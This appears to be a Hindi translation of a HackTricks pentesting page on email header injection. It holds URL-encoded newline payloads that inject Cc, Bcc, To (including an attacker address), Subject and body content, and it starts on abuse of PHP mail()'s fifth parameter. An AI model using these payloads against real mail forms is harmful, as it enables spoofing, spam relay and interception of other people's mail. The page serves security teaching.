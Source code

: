 # ईमेल इंजेक्शन

{{#include ../banners/hacktricks-training.md}}

## भेजे गए ई-मेल में इंजेक्ट करें

### प्रेषक तर्क के बाद Cc और Bcc इंजेक्ट करें
```
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```
संदेश प्राप्तकर्ता और प्राप्तकर्ता1 खातों को भेजा जाएगा।

### Inject argument
```
From:sender@domain.com%0ATo:attacker@domain.com
```
संदेश मूल प्राप्तकर्ता और हमलावर खाते को भेजा जाएगा।

### Inject Subject argument
```
From:sender@domain.com%0ASubject:This is%20Fake%20Subject
```
नकली विषय को मूल विषय में जोड़ा जाएगा और कुछ मामलों में इसे बदल भी दिया जाएगा। यह मेल सेवा के व्यवहार पर निर्भर करता है।

### संदेश के शरीर को बदलें

एक दो-लाइन फीड इंजेक्ट करें, फिर अपने संदेश को लिखें ताकि संदेश के शरीर को बदला जा सके।
```
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```
### PHP mail() फ़ंक्शन का शोषण
```bash
# The function has the following definition:

php --rf mail

Function [ <internal:standard> function mail ] {
- Parameters [5] {
Parameter #0 [ <required> $to ]
Parameter #1 [ <required> $subject ]
Parameter #2 [ <required> $message ]
Parameter #3 [ <optional> $additional_headers ]
Parameter #4 [ <optional> $additional_parameters ]
}
}
```
#### 5वां पैरामीटर ($additional_parameters)

यह अनुभाग इस पर आधारित होगा कि **कैसे इस पैरामीटर का दुरुपयोग किया जाए मान लेते हैं कि एक हमलावर इसे नियंत्रित करता है**।
